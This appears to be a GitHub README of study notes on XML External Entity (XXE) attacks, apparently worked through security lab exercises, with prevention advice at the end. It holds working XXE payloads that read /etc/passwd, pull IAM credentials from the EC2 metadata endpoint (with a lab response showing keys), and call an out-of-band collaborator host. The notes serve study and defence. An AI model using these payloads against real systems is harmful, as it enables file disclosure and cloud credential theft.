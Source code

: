 ##  **XXE (XML External Entity) vulnerability**
XXE (XML External Entity) vulnerability is a security flaw that occurs when an application processes XML input containing references to external entities. If not properly handled, this can lead to **data exposure, file retrieval, SSRF (Server-Side Request Forgery), and even remote code execution** in some cases.  

---

##  **How XXE Works**
1. **XML Processing**: The application parses user-supplied XML.
2. **External Entity Declaration**: If the XML parser is configured to allow external entities (`DOCTYPE` and `SYSTEM`), attackers can inject references to local or remote files.
3. **Data Exfiltration**: The attacker retrieves sensitive files (e.g., `/etc/passwd`) or triggers SSRF by forcing the server to make requests to internal services.

---

##  **Example of a Vulnerable XML**
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>  
<root>  
    <data>&xxe;</data>  
</root>
```
 If an application processes this XML, it will replace `&xxe;` with the contents of `/etc/passwd`, exposing sensitive system information.

## **case1: Exploiting XXE using external entities to retrieve files**
```Payload

<?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE stockCheck [ <!ENTITY procuctid SYSTEM "file:///etc/passwd"> ]>
    <stockCheck>
        <productId>&procuctid;</productId>
        <storeId>1</storeId>
    </stockCheck>
```    
## **case2: Exploiting XXE to perform SSRF attacks**
```secnerio: The lab server is running a (simulated) EC2 metadata endpoint at the default URL, which is http://169.254.169.254/. This endpoint can be used to retrieve data about the instance, some of which might be sensitive.
  motive: obtains the server's IAM secret access key from the EC2 metadata endpoint.

payloads

<?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE stockCheck [ <!ENTITY procuctid SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]>
    <stockCheck>
        <productId>&procuctid;</productId>
        <storeId>1</storeId>
</stockCheck>
```
```Response:
            HTTP/2 400 Bad Request

            Content-Type: application/json; charset=utf-8

            X-Frame-Options: SAMEORIGIN

            Content-Length: 552

            "Invalid product ID: {

            "Code" : "Success",

            "LastUpdated" : "2025-03-11T08:19:31.312893341Z",

            "Type" : "AWS-HMAC",

            "AccessKeyId" : "w4CprEoDqP8HcOoLxq1l",

            "SecretAccessKey" : "iGY2bXKWVPmXrG1tllcM4B4pZCq5XivMtFxpbnhm",

            "Token":
"uqqU5kZR1JlvTBF85Eyn2aJDv6zEVFdntShz9zMpqtazw5AQrIkrNisng0DLy0GomI0uqbATyQwBUNw6Ey4YubP4CJnqQAoqO1Qd0lMkkVQPTgtREDUuQiNVAf0qzMUKRsXS7G9pdI6PBfm1g8V0wCNYSKW2YdkWSZaYsOqc4CmXWT4cE0znDrONJ2cN6NpPJCEAFmwO55NDqNnpuMRFovx8DUVs4QdCFDNdW4Vw0JVAQdtU5jsirgxMS4hK1Qkd",

              "Expiration" : "2031-03-10T08:19:31.312893341Z"

            }"
```
## **case 3: Blind XXE with out-of-band interaction**
``` secnerio: use an external entity to make the XML parser issue a DNS lookup and HTTP request to Burp Collaborator.
    payloads:
    <?xml version="1.0" encoding="UTF-8"?>
        <!DOCTYPE stockCheck [ <!ENTITY xxe SYSTEM "http://pe7r5ma8pmiqhg5yu8d1hkk9b0hr5vtk.oastify.com/"> ]>
        <stockCheck>
            <productId>&xxe;</productId>
            <storeId>1</storeId>
        </stockCheck>
```
## **case4: Blind XXE with out-of-band interaction via XML parameter entities**
``` secnerio: use a parameter entity to make the XML parser issue a DNS lookup and HTTP request to Burp Collaborator

   Payload:
            <?xml version="1.0" encoding="UTF-8"?>
                    <!DOCTYPE stockCheck [<!ENTITY % xxe SYSTEM "http://burp-collabrator-subdomain/"> %xxe; ]>
                    <stockCheck>
                        <productId>1</productId>
                        <storeId>1</storeId>
                    </stockCheck>
```
---

## 🛠 **Exploiting XXE**
- **File Disclosure**: Load system files using `file:///path/to/file`.
- **SSRF (Server-Side Request Forgery)**: Force the server to request internal/external resources (`http://internal-service/`).
- **Denial of Service (Billion Laughs Attack)**: Overload memory by nesting entities.
- **RCE (in rare cases)**: If the application allows interaction with system commands via an entity, remote code execution might be possible.

---

##  **How to Prevent XXE**
 **Disable DTD Processing** (External Entities):  
- In Java (DOM Parser):
  ```java
  DocumentBuilderFactory dbf = DocumentBuilderFactory.newInstance();
  dbf.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
  ```
- In Python (`lxml` parser):
  ```python
  from lxml import etree
  parser = etree.XMLParser(resolve_entities=False)
  ```

**Use Safe Parsers**: Choose modern, secure XML libraries that disable external entity resolution by default.  
**Input Validation**: Avoid accepting XML input unless necessary.  
**Use JSON Instead of XML**: JSON does not support external entities, reducing the risk of XXE.

## **Refrence** 
   
   https://rohitcoder.medium.com/comprehensive-guide-detecting-fixing-and-defending-against-xxe-attacks-in-python-and-java-e78691b4b918
   
   https://www.w3schools.com/xml/xml_dtd_intro.asp
   
---
